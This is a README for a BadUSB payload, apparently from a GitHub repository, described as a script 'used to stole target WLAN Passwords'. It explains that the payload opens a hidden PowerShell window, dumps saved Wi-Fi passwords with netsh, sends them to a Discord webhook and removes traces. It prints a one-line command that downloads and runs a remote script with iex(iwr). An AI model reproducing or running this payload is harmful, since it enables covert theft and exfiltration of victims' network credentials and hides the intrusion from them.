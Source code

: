 # WLAN Windows Password - BadUSB ✅

A script used to stole target WLAN Passwords.


**Category**: WLAN, Credentials

<div align=center>

<img src="https://github.com/aleff-github/my-flipper-shits/blob/main/img/logo-repository-2_0.gif" width="600" /><br>
<img src="https://raw.githubusercontent.com/Zenin0/Glitter_Scripts/main/main/img/logo-repository-2_0.gif?token=GHSAT0AAAAAACJCV62VNWNDWX2QBSTQEA4UZJVRNCA" width="600" />

</div>

## Description

A script used to stole target WLAN Passwords.

Opens PowerShell hidden, grabs wlan passwords, saves as a cleartext in a variable and exfiltrates info via Discord Webhook.

Then it cleans up traces of what you have done after.

## Getting Started

### Dependencies

* An internet connection
* Windows 10,11

### Executing program

* Plug in your device
* Invoke 2 netsh commands
* Invoke-WebRequest will be entered in the Run Box to send the content to Discord

All
```powershell
powershell -WindowStyle Hidden -Command "iex (iwr -uri 'https://raw.githubusercontent.com/Zenin0/Glitter_Scripts/main/Credentials/W-Wifi-Passwords/W-Wifi-Passwords.ps1?token=GHSAT0AAAAAACJCV62V5276FTVUNEJL35JMZJVRJAA').Content"
```

